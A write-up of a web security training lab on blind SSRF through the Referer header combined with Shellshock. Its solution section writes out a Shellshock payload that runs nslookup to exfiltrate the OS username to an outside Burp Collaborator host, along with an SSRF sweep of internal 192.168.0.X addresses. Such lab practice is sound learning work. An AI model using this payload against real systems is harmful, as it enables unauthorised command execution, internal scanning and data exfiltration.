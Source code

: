 # Lab: Blind SSRF with Shellshock exploitation

>This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

>To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.


### Observations
**My Collaborator Url**: `wwwlamnqtk3yuqpxoj8zr6t82z8pwe.burpcollaborator.net`
**Vulnerable Area**: Referer header of `/product`

I didn't know what shellshock was so I found an article that describes it here: https://blog.cloudflare.com/inside-shellshock/

Based on the reading, this is the shellshock payload: `{ :; };`. Looks like we will put this payload in the User-Agent header. This payload allows us to execute whatever follows as a bash command.

From here, it is as simple as sending a specific request to each 192.168.0.X IP address
### Solution
- Send your `GET /product?productId=1` request to Burp intruder. 
- Change the user-agent header to `User-Agent: () { :; }; /usr/bin/nslookup $(whoami).wwwlamnqtk3yuqpxoj8zr6t82z8pwe.burpcollaborator.net` (but use your collaborator url)
- Set the referer header to `Referer: http://192.168.0.§1§:8080`
- Set your payload to all numbers between 1-255 to iterate over all IP addresses in 192.168.0.X
- Look at your burp collaborator client and look to find the OS user as a subdomain of your collaborator url

The user in my instance was named `peter-Yof9PR`, lab solved!